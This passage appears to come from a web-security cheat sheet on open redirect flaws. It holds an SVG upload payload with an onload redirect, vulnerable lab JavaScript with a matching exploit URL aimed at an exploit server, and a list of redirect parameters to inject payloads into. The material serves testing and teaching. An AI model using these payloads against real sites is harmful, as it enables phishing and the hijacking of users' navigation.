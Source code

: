     ```
    
- **Open Redirect when uploading svg files**
    
    ```xml
    <code>
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <svg
    onload="window.location='<http://www.google.com>'"
    xmlns="<http://www.w3.org/2000/svg>">
    </svg>
    </code>
    
    ```
    
- [**DOM-based open redirection**](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)
    
    **Vulnerable code**
    
    ```jsx
    <a href='#' onclick='returnUrl = /url=(https?:\\/\\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
    ```
    
    **Exploit**
    
    ```jsx
    https://<target.com>/post?postId=4&url=https://exploit-0ad70038030eccda80ecd9d801610038.exploit-server.net/
    ```
    
- **Common injection parameters**
    
    ```
    /{payload}
    ?next={payload}
    ?url={payload}
    ?target={payload}
    ?rurl={payload}
    ?dest={payload}
    ?destination={payload}
    ?redir={payload}
    ?redirect_uri={payload}
    ?redirect_url={payload}
    ?redirect={payload}
    /redirect/{payload}
    /cgi-bin/redirect.cgi?{payload}
    /out/{payload}
    /out?{payload}
    ?view={payload}
    /login?to={payload}
    ?image_url={payload}
    ?go={payload}
    ?return={payload}
    ?returnTo={payload}
    ?return_to={payload}
    ?checkout_url={payload}
    ?continue={payload}
    ?return_path={payload}
    success=https://c1h2e1.github.io
    data=https://c1h2e1.github.io
    qurl=https://c1h2e1.github.io
    login=https://c1h2e1.github.io
    logout=https://c1h2e1.github.io
    ext=https://c1h2e1.github.io
    clickurl=https://c1h2e1.github.io
    goto=https://c1h2e1.github.io
